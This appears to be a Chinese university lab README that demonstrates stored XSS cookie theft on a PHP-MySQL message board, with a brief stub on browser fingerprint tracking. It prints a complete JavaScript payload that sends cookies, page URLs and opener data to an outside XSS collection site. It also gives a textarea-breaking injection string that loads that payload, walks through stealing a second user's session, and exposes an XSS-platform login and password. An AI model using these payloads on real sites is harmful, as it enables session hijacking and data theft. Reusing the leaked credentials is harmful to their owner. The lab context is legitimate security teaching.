





# 大数据安全实验三提高部分

BUPT-SCSS第三次大数据安全实验演示demo，包含XSS和在线追踪两个部分。

## 新的Cookie窃取方法

### 简述

小组经过调研，对XSS攻击技术进行了探究，并制作Demo进行演示。

本Demo是使用php-mysql架构搭建的典型的Web留言板应用，留言板具有注册、登录、对指定用户留言、查看其他用户给自己的留言等功能。如果后端对用户输入的留言内容过滤不严，就容易出现XSS漏洞。


XSS的payload代码放置在公网XSS平台上，代码具有窃取Headers、Cookies等功能。

```javascript
(function(){(new Image()).src='https://xsshs.cn/xss.php?do=api&id=pou2&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if('1'==1){keep=new Image();keep.src='https://xsshs.cn/xss.php?do=keepsession&id=pou2&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
var x=new Image();
try
{
var myopener='';
myopener=window.opener && window.opener.location ? window.opener.location : '';
}
catch(err)
{
}
x.src='{$xssite}/?do=api&act=r&id={$pid}&diy[location]='+escape(document.location)+'&diy[toplocation]='+escape(top.document.location)+'&diy[cookie]='+escape

(document.cookie)+'&diy[opener]='+escape(myopener)+'&diy[referrer]='+escape(document.referrer)+'&diy[title]='+escape(document.title);
```

使用只需插入如下语句

```
</textarea>'"><script src=//xs.sb/pou2></script>
```

### XSS基本原理概述

> 这里懒得写了  凑字数  加油
>
> 可以如此安排内容：
>
> XSS基本原理
>
> XSS的分类（反射型、存储型、DOM型），本实验用到了存储型XSS攻击方式
>
> XSS攻击的流程（反射型一般是诱导受害者点击URL，存储型和DOM型会在用户站点长期存在，访问即受害）
>
> XSS攻击的防御（前端过滤、后端编码、服务器端设置CSP）（针对Cookie的窃取，使用HttpOnly防护）

### 环境配置

docker与镜像版本

```
# docker --version
Docker version 19.03.13, build 4484c46d9d
# mysql --version
mysql  Ver 14.14 Distrib 5.7.32, for Linux (x86_64) using  EditLine wrapper
```


### 演示——准备工作

提前在留言板注册了用户c1、`c2`，可看到他们之间的留言正常显示




查看浏览器Cookie，可以看到PHP的session，以及我们提前设置的Cookie。这个Cookie是没有HttpOnly保护的。


在XSS在线平台`https://xs.sb`注册一个账号，建立XSS项目设置我们需要执行的payload，并保存平台生成的链接。

> 用户名：Arklight
>
> 密码：1085455474
>
> 到时候记得自己注册一个



接下来c2向c1发送了这样一条信息`</textarea>'"><script src=//xs.sb/pou2></script>`


进入c1的登录界面，同时使用控制台Network监视流量，可以看到XSS Payload被加载、Cookie以HTTP-GET方式外带的过程。





检查我们的XSS平台，确实获得了用户Cookie。



## 在线追踪实验

使用CanvasFP/WebGLFP/AudioFP进行实验